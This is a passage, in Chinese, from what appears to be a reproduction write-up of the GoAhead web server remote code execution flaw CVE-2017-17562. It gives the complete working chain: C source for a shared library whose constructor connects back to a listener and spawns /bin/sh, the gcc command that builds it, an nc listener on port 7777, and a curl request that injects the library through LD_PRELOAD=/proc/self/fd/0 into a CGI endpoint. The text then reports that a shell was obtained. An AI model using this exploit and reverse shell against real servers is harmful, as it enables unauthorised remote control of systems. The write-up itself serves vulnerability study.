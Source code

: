 ```bash
<P>SERVER_SOFTWARE=GoAhead/3.6.4</P>
```

接着编译用于动态加载的so。

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="172.16.217.185";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  //socket initialize
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  //connect to the server
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  //dup the socket to stdin, stdout and stderr
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  //execute /bin/sh to get a shell
  execve("/bin/sh", 0, 0);
}
```

编译命令：

```bash
gcc -shared -fPIC ./exp.c -o exp.so
```

然后在控制端监听7777端口：

```bash
nc -lvnp 7777
```

执行poc：

```bash
curl -X POST --data-binary @exp.so http://172.16.217.185:80/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

可以看到成功拿到shell。

![Alt text](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2019-09-29-CVE-2017-17562-GoAhead-rce/poc_shell.png)
